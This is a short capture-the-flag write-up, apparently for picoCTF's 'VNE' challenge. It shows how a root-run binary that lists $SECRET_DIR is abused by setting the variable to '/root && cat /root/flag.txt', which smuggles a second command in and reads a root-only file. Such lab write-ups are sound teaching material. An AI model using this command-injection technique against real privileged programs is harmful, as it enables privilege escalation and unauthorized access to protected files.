 # Writeup: VNE

## Overview

This challenge involves understanding of Linux operator and environment variables to reveal the flag.

## Info

1. **Challenge Description**

```text
We've got a binary that can list directories as root, try it out !! 
ssh to saturn.picoctf.net:50136, and run the binary named "bin" once connected. 
Login as ctf-player with the password, 3f39b042
```

2. Hint
  - Have you checked the content of the /root folder
  - Find a way to add more instructions to the ls

## Exploitation steps
1. Connect to the server as `ctf-player`.

```terminal
$ ssh -p 50136 ctf-player@saturn.picoctf.net
```

2. Check files in the current directory.

```terminal
ctf-player@pico-chall$ ls
bin
```

3. Run `bin` as in the challenge description said.

```terminal
ctf-player@pico-chall$ ./bin
Error: SECRET_DIR environment variable is not set
```

- `bin` requires the `SECRET_DIR` environment variable to be set.

4. Set the environment variable `SECRET_DIR` to `/root` and run `bin` again.

```terminal
ctf-player@pico-chall$ export SECRET_DIR=/root
ctf-player@pico-chall$ ./bin
Listing the content of /root as root: 
flag.txt
```

- Seems like the `bin` running `ls $SECRET_DIR`

5. Add the instruction using `&&` operator to output the flag.

```terminal
ctf-player@pico-chall$ export SECRET_DIR='/root && cat /root/flag.txt'
ctf-player@pico-chall$ ./bin
Listing the content of /root && cat /root/flag.txt as root: 
flag.txt
picoCTF{Power_t0_man!pul4t3_3nv_1670f174}
```

##  Conclusion
By setting up `SECRET_DIR` environment variable and adding additional commands, we can reveal the flag.
